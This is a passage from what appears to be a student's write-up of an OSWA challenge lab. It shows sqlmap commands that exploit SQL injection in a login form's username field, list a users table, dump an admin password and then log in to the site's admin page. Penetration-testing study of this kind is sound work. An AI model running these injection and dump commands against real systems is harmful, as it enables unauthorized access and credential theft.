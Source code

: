 ```bash
| users            |                               
+------------------+                               

[04:31:16] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/piano'    
[04:31:16] [WARNING] your sqlmap version is outdated           
```
now we test to find the `--columns` in the `--tables` in the `piano_protocol` database
```bash
┌──(root💀gobots)-[10Dec2024 04:31:16]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]               
└─# sqlmap -r post_req.txt -p username -D piano_protocol -T users --columns --batch
[04:31:49] [INFO] fetching columns for table 'users' in database 'piano_protocol'                     
Database: piano_protocol                           
Table: users                                       
[6 columns]                                        
+-----------+---------------+                      
| Column    | Type          |                      
+-----------+---------------+                      
| email     | varchar(255)  |                      
| firstname | varchar(255)  |                      
| id        | int(11)       |                      
| lastname  | varchar(255)  |                      
| password  | varchar(255)  |                      
| username  | varchar(3000) |                      
+-----------+---------------+           
```
now since we have the `--columns`, `--tables,` & `--dbs` we can now dump the column
```bash
┌──(root💀gobots)-[10Dec2024 04:31:49]-[/home/…/SUT/OSWA/challenge_labs/piano_protocol]               
└─# sqlmap -r post_req.txt -p username -D piano_protocol -T users -C username,password --dump --batch   
back-end DBMS: MySQL >= 5.6
back-end DBMS: MySQL >= 5.6
[04:51:23] [INFO] fetching entries of column(s) 'password,username' for table 'users' in database 'piano_protocol'
Database: piano_protocol
Table: users
[1 entry]
+----------+-------------------+
| username | password          |
+----------+-------------------+
| admin    | djj28hah*dhk2hd1% |
+----------+-------------------+


[04:32:09] [INFO] table 'piano_protocol.users' dumped to CSV file '/root/.local/share/sqlmap/output/piano/dump/piano_protocol/users.csv'
[04:32:09] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/piano'
[04:32:09] [WARNING] your sqlmap version is outdated

```
credentials saved here
![[Pasted image 20241209234218.png]]
able to login at `http://piano/siteadmin`
![[Pasted image 20241209235247.png]]
